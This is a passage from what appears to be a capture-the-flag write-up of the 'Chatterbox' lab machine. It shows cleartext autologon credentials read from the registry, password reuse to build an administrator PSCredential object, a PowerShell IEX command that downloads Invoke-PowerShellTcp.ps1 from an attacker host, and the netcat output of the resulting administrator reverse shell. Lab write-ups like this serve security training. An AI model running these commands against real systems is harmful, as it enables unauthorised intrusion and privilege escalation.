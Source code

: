 ```
    PowerdownAfterShutdown    REG_SZ    0
    ShutdownWithoutLogon    REG_SZ    0
    WinStationsDisabled    REG_SZ    0
    DisableCAD    REG_DWORD    0x1
    scremoveoption    REG_SZ    0
    ShutdownFlags    REG_DWORD    0x80000033
    DefaultDomainName    REG_SZ    
    DefaultUserName    REG_SZ    Alfred
    AutoAdminLogon    REG_SZ    1
    DefaultPassword    REG_SZ    Welcome1!

HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\GPExtensions
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\AutoLogonChecked
PS C:\Windows\system32> 
```

As we can see, there are indeed clear text credentials stored in the registry. We now have a set of valid credentials for the target system.

### Password Reuse

As an attacker, one of the first things we should do is to test whether there has been any reuse of any passwords we find. Unfortunately for us, the target system has the firewall enabled and is only allowing two ports to connect to the system, which limits our options.

In Powershell, we can store credentials in a "PSCredential" object and use it when executing commands. Using this method, let's create a credentials object for the "administrator" user and use that to try and get a new reverse shell. We can build our new objet as follows:

> $username = 'administrator'&#x20;
>
> $password = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force&#x20;
>
> $credentialsObject = New-Object System.Management.Automation.PSCredential($username, $password)

We need to start a python3 web service in the directory containing our "Invoke-PowerShellTcp.ps1" script. We also need another netcat listener. We'll use the following powershell command to download and execute the script as the "administrator" user which should result in a new powershell session.

> We can use the same port we did for the initial connection (TCP 9898) for our new netcat listener as our system is no longer listening on the port even though we have an established connection.

With our python3 web service running and our netcat listener started, we can run the following command on the target system:

> Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.webClient).downloadString('http://10.10.14.7/Invoke-PowerShellTcp.ps1')" -Credential $credentialsObject

```
└─$ nc -nvlp 9898
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::9898
Ncat: Listening on 0.0.0.0:9898
Ncat: Connection from 10.10.10.74.
Ncat: Connection from 10.10.10.74:49163.
Windows PowerShell running as user Administrator on CHATTERBOX
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32>whoami
chatterbox\administrator
PS C:\Windows\system32> hostname
Chatterbox
PS C:\Windows\system32> 
```
